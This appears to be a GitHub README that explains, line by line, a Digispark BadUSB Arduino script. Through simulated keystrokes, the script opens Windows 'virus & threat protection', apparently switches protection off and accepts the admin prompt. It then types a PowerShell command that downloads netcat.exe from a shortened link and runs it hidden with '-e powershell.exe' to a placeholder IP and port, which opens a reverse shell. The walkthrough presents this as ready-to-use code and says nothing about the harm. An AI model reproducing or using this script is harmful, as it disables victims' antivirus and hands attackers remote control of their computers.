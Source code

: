 <h2 color="#00979C"> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

<code color="#00979C">#include "DigiKeyboard.h"</code>
<p><em>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.<em></p>

<code color="#00979C">void setup(){</code>
<p>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</p>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<p>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>
<p>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</p>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<p>Another delay of 1000 milliseconds is introduced.</p>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>
<p>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</p>

<code color="#00979C">DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function simulates pressing the Enter key.</p>

<code color="#00979C">DigiKeyboard.delay(5000);</code>
<p>A delay of 5000 milliseconds (5 seconds) is introduced.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>
<p>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Another Enter key press is simulated.</p>

<code color="#00979C">DigiKeyboard.delay(700);</code>
<p>A delay of 700 milliseconds (0.7 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Yet another Enter key press is simulated.</p>

<code color="#00979C">DigiKeyboard.delay(700);</code>
<p>Another delay of 700 milliseconds is introduced.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
<p>The sendKeyStroke() function simulates pressing the Space key.</p>

<code color="#00979C">DigiKeyboard.delay(2000);</code>
<p>A delay of 2000 milliseconds (2 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</p>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<p>A delay of 1000 milliseconds (1 second) is introduced.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
<p><The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows./p>

<code color="#00979C">DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</p>

<code color="#00979C">DigiKeyboard.delay(700);</code>
<p>A delay of 700 milliseconds (0.7 seconds) is introduced.</p>

<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>
<p>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</p>
  
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code color="#00979C">void loop(){}</code>
<p>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions</p>




